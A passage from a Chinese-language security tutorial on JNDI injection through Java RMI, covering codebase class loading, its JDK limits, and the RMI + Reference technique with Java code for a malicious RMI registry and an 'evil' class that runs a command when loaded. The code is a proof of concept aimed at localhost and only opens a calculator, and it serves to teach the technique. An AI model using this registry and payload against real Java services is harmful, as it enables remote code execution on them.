 - 攻击者将恶意Remote对象绑定到Server端的Registry
- Remote类放在服务器上，然后设置Server端的codebase地址（java.rmi.server.codebase属性）
- Client在lookup时找不到该类就会向远程codebase加载恶意Remote对象

**限制**

从JDK 6u45、7u21开始，`java.rmi.server.useCodebaseOnly `的默认值就是true。在

`java.rmi.server.useCodebaseOnly `配置为 true 的情况下，Java虚拟机将只信任预先配置好的

codebase ，不再支持从RMI请求中获取。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

这种方法用途不是很广。

### 2 RMI + Reference

通过RMI进行JNDI注入，攻击者构造的恶意RMI服务器向客户端返回一个`Reference`对象，`Reference`对象中指定从远程加载构造的恶意`Factory`类，客户端在进行`lookup`的时候，会从远程动态加载攻击者构造的恶意`Factory`类并实例化，攻击者可以在构造方法或者是静态代码等地方加入恶意代码。

因为`Reference`没有实现`Remote`接口也没有继承`UnicastRemoteObject`类，故不能作为远程对象bind到注册中心，所以需要使用`ReferenceWrapper`对`Reference`的实例进行一个封装。

看一下示例代码：

服务端

```java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class rmiserver {

    public static void main(String[] args) throws Exception{
        Registry registry= LocateRegistry.createRegistry(1099);

        Reference reference = new Reference("evil", "evil", "http://localhost/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("calc", wrapper);

    }
}
```

恶意代码（`evil.class`）

```java
import java.io.IOException;

public class evil {
    public evil() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

